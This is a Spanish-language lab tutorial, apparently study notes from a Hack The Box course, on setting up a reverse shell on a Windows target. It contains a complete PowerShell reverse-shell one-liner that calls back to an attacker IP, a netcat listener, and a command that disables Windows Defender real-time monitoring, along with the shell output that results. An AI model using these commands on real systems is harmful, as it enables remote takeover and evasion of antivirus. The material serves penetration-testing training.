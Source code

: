 # Reverse Shells

Con una reverse shell, la **caja de ataque** tendrá un "listener" (escucha) en ejecución, y el **objetivo** necesitará iniciar la conexión.

En muchos casos de sistemas vulnerables, es más probable que un administrador pase por alto conexiones salientes, lo que nos da una mejor oportunidad de no ser detectados. En contraste, las bind shells dependen de conexiones entrantes permitidas por el firewall del lado del servidor, lo cual es difícil de ejecutar en un entorno real.

Como se muestra en la imagen, al iniciar un "listener" para una concha inversa en nuestra caja de ataque, usamos algún método (como la carga de archivos no restringida o la inyección de comandos) para forzar que el objetivo inicie una conexión hacia nuestra caja, haciendo que la caja de ataque se convierta en el **servidor** y el objetivo en el **cliente**.

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No siempre necesitamos reinventar los payloads (comandos y código). Herramientas como el **Reverse Shell Cheat Sheet** contienen listas de comandos y generadores de shells inversas automatizadas que podemos usar en la práctica o en compromisos reales. Sin embargo, muchos administradores conocen estos recursos, por lo que podrían ajustar sus controles de seguridad para detectarlos. En algunos casos, necesitaremos personalizar nuestros ataques.

## Trabajando con una concha inversa en Windows

Vamos a establecer una concha inversa simple usando PowerShell en un objetivo Windows.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Usamos el puerto 443, común para conexiones HTTPS, ya que rara vez los equipos de seguridad bloquean este puerto. Sin embargo, firewalls avanzados con inspección de paquetes y visibilidad en la capa 7 pueden detectar conchas inversas en puertos comunes.

Una vez que el objetivo Windows esté activo, conectamos usando RDP.

> **Nota:** Netcat no es nativo en Windows, por lo que no podemos contar con él directamente. Idealmente, usamos las herramientas nativas del sistema.

Podemos usar un simple **one-liner** de PowerShell para crear una concha inversa.

### **En el objetivo Windows (cliente)**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```

El antivirus de Windows Defender bloqueó el código, como es de esperar desde el punto de vista defensivo. Desde la perspectiva ofensiva, tenemos algunos obstáculos si el antivirus está habilitado.

### **Deshabilitar el antivirus**

Podemos deshabilitar el antivirus con la siguiente línea en una consola de PowerShell administrativa:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Una vez deshabilitado, ejecutamos de nuevo el código.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

Hemos establecido con éxito la concha inversa y podemos interactuar con el sistema. Intenta ejecutar algunos comandos estándar de Windows para practicar.
